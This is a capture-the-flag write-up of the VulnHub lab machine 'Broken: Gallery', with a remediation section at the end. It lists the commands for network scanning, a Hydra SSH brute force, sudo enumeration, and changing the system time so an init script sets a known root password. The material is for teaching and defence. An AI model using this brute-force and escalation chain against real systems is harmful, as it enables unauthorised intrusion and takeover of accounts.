



# Broken: Gallery — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.107 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Password** | TodayIsAgoodDay_ |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/broken-gallery,299/) |

## Attack Summary

nmap → Hydra SSH brute force (broken:broken) → sudo timedatectl → trigger /etc/init.d/password-policy.sh → su root → root

## Methodology

1. Network discovery
2. SSH brute force with Hydra
3. Sudo enumeration
4. System time manipulation to trigger password policy script
5. Root via `su` with triggered password

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.107
```

Findings: port 22 (SSH), port 80 (HTTP).


---

## Step 2: Build Wordlists and SSH Brute Force

Browse to the web server — filenames on the page hint at usernames and passwords. Build wordlists:

```bash
# user wordlist: broken, admin, gallery, etc.
# pwd wordlist: broken, gallery, etc.

hydra -L user.txt -P pwd.txt 192.168.1.107 ssh
```

**Credentials found:** `broken:broken`

```bash
ssh broken@192.168.1.107
```



---

## Step 3: Enumeration as broken

```bash
sudo -l
# User broken may run: /usr/bin/timedatectl, /sbin/reboot

cat ~/.bash_history
# References /etc/init.d/password-policy.sh
cat /etc/init.d/password-policy.sh
```

The script sets the root password when the system time matches a specific date condition.



---

## Step 4: Trigger the Password Policy Script

Set the system time to the date that triggers the script:

```bash
sudo timedatectl set-time '2015-11-20 16:14:50'
```

The cron or init script fires and sets the root password to `TodayIsAgoodDay_`.

```bash
sudo /sbin/reboot
```

Wait for the VM to reboot, then reconnect as `broken` and escalate:

```bash
ssh broken@192.168.1.107
su root
# password: TodayIsAgoodDay_
id
# uid=0(root)
```


---

## Step 5: Root Flag

```bash
ls /root
cat /root/flag.txt
```



---

## Lessons Learned

1. **Weak SSH credentials** — `broken:broken` is brute-forceable in seconds; enforce strong passwords and key-based auth
2. **sudo timedatectl** — system time control allows triggering time-based logic; restrict `timedatectl` sudo access
3. **Password hardcoded in init script** — password-policy.sh sets a predictable root password; rotate credentials via secrets management, not scripts
4. **bash_history disclosure** — `.bash_history` reveals the attack path; clear or disable history for sensitive accounts

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Weak SSH credentials | Enforce minimum password complexity; prefer SSH key-only auth |
| sudo timedatectl | Remove from sudoers or scope with specific operations only |
| Hardcoded root password in script | Remove credential-setting logic from init scripts; use proper PAM |
| bash_history leakage | Clear history, disable HISTFILE for privileged accounts |
